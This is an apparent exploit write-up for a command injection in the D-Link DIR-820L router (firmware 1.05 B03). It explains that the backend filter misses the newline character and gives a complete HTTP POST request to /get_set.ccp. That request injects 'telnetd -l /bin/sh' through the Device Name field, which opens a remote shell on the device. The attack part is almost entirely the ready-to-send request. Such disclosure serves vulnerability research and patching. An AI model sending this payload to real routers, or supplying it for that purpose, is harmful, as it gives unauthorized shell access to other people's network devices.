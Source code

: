 # D-Link DIR-820L command_execution

**Vender**: D-Link

**Vendor Homepage**: http://www.dlink.com.cn/

**Affect products**: DIR-820L

**Firmware version**: 1.05 B03

**Hardware Link**: http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

**Exploit Author**: [SkYe231@Hillstone](mailto:ext-lhliang@Hillstonenet.com), Akast@Hillstone, GD@Hillstone

## detail

In the handler of route `/lan.asp`, the value of parameter `Device Name` can inject command

![image-20220222165316794](img/image-20220222165316794.png)

Parameters are filtered on both the front-end and the back-end. 

**Grab traffic packets to bypass front-end filtering.** 

**The backend filter function is: `hasInjectionString` (in file `lib/libleopard.so`).The symbol `\n` is not filtered.**

## EXP

Edit the value of `lanHostCfg_DeviceName_1.1.1.0` to the command what you want to inject. Such as:

> lanHostCfg_DeviceName_1.1.1.0=%0atelnetd -l /bin/sh%0a

```html
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 768
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/lan.asp
Cookie: hasLogin=1

ccp_act=set&old_ip=192.168.0.1&old_mask=255.255.255.0&new_ip=192.168.0.1&new_mask=255.255.255.0&nextPage=lan.asp&lanHostCfg_IPAddress_1.1.1.0=192.168.0.1&lanHostCfg_SubnetMask_1.1.1.0=255.255.255.0&lanHostCfg_DomainName_1.1.1.0=&lanHostCfg_DNSRelay_1.1.1.0=1&lanHostCfg_DHCPServerEnable_1.1.1.0=1&lanHostCfg_MinAddress_1.1.1.0=192.168.0.100&lanHostCfg_MaxAddress_1.1.1.0=192.168.0.200&lanHostCfg_DHCPLeaseTime_1.1.1.0=1440&lanHostCfg_DeviceName_1.1.1.0=%0atelnetd -l /bin/sh%0a&lanHostCfg_AlwaysBroadcast_1.1.1.0=0&lanHostCfg_NetBIOSAnnouncement_1.1.1.0=0&lanHostCfg_NetBIOSLearn_1.1.1.0=0&lanHostCfg_NetBIOSScope_1.1.1.0=&lanHostCfg_NetBIOSNodeType_1.1.1.0=2&lanHostCfg_PrimaryWINSAddress_1.1.1.0=0.0.0.0&lanHostCfg_SecondaryWINSAddress_1.1.1.0=0.0.0.0&1645537536373=1645537536373
```

